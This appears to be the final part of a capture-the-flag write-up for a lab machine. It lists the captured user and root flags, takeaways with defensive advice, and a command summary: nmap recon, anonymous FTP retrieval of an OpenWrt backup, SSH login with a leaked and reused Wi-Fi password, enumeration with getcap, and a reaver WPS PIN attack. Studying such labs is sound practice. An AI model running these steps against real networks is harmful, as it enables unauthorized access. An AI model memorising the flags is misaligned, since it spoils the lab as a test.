 User flag: 03687ad349ad3fd2ab27afb86bc10f1b

Root flag: 94866ea86e569ab12e3c2d0f5893db19

---

## 🔑 Takeaways

- Backups leak secrets. Firmware/backups (OpenWrt configs) contained a Wi-Fi passphrase — treat backups as sensitive.

- Credential reuse works. The Wi-Fi password reused on a local account provided the initial foothold.

- Local tooling matters. getcap revealed reaver with cap_net_raw—check file capabilities during enumeration.

- WPS is risky. If WPS is enabled, Reaver-style PIN attacks can reveal strong credentials; disable WPS where possible.

- Defensive steps: restrict anonymous FTP, avoid storing plaintext credentials in backups, disable WPS on APs, and remove unnecessary cap_net_raw capabilities from binaries.

---

## ⚙️ Full command summary (ordered)

# Recon
nmap -sV -sC -oN initial 10.129.229.90

# FTP (anonymous) -> download -> extract
```bash
get backup-OpenWrt-2023-07-26.tar
tar -xvf backup-OpenWrt-2023-07-26.tar
```

# SSH access (credential reuse)
```bash
ssh netadmin@10.129.229.90
```
# password:
```bash
 VeRyUniUqWiFIPasswrd1!
```
# Local enumeration
```bash
ifconfig
systemctl status wpa_supplicant.service
systemctl status hostapd.service
iwconfig
iw dev
getcap -r / 2>/dev/null
```
# Reaver WPS attack (from compromised box)
```bash
reaver -i mon0 -b 02:00:00:00:00:00 -vv -c 1
```
# Escalate to root
